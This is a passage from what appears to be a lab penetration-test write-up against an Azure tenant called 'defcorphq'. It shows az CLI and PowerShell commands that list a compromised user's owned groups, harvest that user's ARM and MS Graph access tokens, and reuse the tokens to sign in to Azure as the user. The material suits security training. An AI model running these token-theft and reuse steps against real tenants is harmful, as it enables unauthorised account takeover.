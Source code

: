 - We can list owned objects.
```powershell
PS C:\Windows\system32> az ad signed-in-user list-owned-objects

<snip>

{
    "deletionTimestamp": null,
    "description": "Members can create and run runbooks",
    "dirSyncEnabled": null,
    "displayName": "Automation Admins",
    "lastDirSyncTime": null,
    "mail": null,
    "mailEnabled": false,
    "mailNickname": "fe6a8b21-4",
    "objectId": "e6870783-1378-4078-b242-84c08c6dc0d7",
    "objectType": "Group",
    "odata.type": "Microsoft.DirectoryServices.Group",
    "onPremisesDomainName": null,
    "onPremisesNetBiosName": null,
    "onPremisesSamAccountName": null,
    "onPremisesSecurityIdentifier": null,
    "provisioningErrors": [],
    "proxyAddresses": [],
    "securityEnabled": true
  }
```
- `MarkDWalden@defcorphq.onmicrosoft.com` owns a group called `Automation Admins`.

- We can request an ARM access token for the user identity we control.
```powershell
PS C:\Windows\system32> az account get-access-token
{
  "accessToken": "eyJ0e...vsOaA",
  "expiresOn": "2024-03-07 01:43:40.986445",
  "subscription": "b413826f-108d-4049-8c11-d52d5d388768",
  "tenant": "2d50cb29-5f7b-48a4-87ce-fe75a941adb6",
  "tokenType": "Bearer"
}
```

- We can also request a MSGraph token for the user identity that we control.
```powershell
PS C:\Windows\system32> az account get-access-token --resource-type ms-graph
{
  "accessToken": "eyJ0...O7JA",
  "expiresOn": "2024-03-07 02:05:28.017163",
  "subscription": "b413826f-108d-4049-8c11-d52d5d388768",
  "tenant": "2d50cb29-5f7b-48a4-87ce-fe75a941adb6",
  "tokenType": "Bearer"
}
```

- We can now connect to Azure as `MarkDWalden@defcorphq.onmicrosoft.com`.
```powershell
PS C:\Windows\system32> $armtoken = 'eyJ0...SGbhCw'
PS C:\Windows\system32> $msgraphtoken = 'eyJ0eXA...7JA'
PS C:\Windows\system32> Connect-AzAccount -AccountId 'MarkDWalden@defcorphq.onmicrosoft.com' -AccessToken $armtoken -MicrosoftGraphAccessToken $msgraphtoken

Account                               SubscriptionName TenantId                             Environment
-------                               ---------------- --------                             -----------
MarkDWalden@defcorphq.onmicrosoft.com DefCorp          2d50cb29-5f7b-48a4-87ce-fe75a941adb6 AzureCloud
```